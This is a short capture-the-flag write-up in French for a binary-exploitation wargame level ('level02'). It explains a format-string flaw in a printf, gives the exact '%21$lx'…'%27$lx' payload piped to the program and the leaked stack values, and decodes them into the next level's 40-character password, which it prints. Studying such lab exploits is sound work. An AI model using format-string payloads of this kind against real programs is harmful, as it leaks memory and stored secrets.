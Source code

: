 # Level02

## **Réflexion :**

Dans le `main`, le contenu du mot de passe du niveau suivant est stocké sur la **stack** à l'aide d'un `fread`.

On aurait pu aller regarder l'état de la **pile** directement avec **gdb** mais son utilisation est bloquée.

À la fin du `main` on trouve un `printf` vulnérable au **format string**.

De fait, on va utiliser la **format string** pour **dump** des parties de la **stack** jusqu'à retrouver le mot de passe en question.

En cherchant un peu, on se rend compte que la string générée par `printf` est placée en 28ème position sur la **pile**.

On peut en conclure que notre mot de passe est placé avant la 28ème valeur sur la **stack**, on sait également que son buffer est placé entre deux autres buffers qui ont été `bzero` au début du `main`.


## **Tests :**

En imprimant les valeurs en hexadécimales à l'aide de `%lx` (ici on utilise le modificateur de longueur `l` car nous sommes en 64 bits) on peut observer 5 fois 8 octets à la suite (un mot de passe est composé de 40 caractères) délimités par deux 0 :

```bash
python -c 'print("%21$lx %22$lx %23$lx %24$lx %25$lx %26$lx %27$lx")' | ./level02
```

```
0 756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d 0 does not have access!
```


## **Solution :**

Il ne nous reste plus qu'à afficher nos 5 valeurs en **ASCII** après les avoir reverses vu qu'on est en **little endian** :

```python
print("\x75\x6e\x50\x52\x34\x37\x68\x48"[::-1], end='')
print("\x45\x41\x4a\x35\x61\x73\x39\x51"[::-1], end='')
print("\x37\x7a\x71\x43\x57\x4e\x67\x58"[::-1], end='')
print("\x35\x4a\x35\x68\x6e\x47\x58\x73"[::-1], end='')
print("\x48\x33\x67\x50\x66\x4b\x39\x4d"[::-1])
```

>> Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H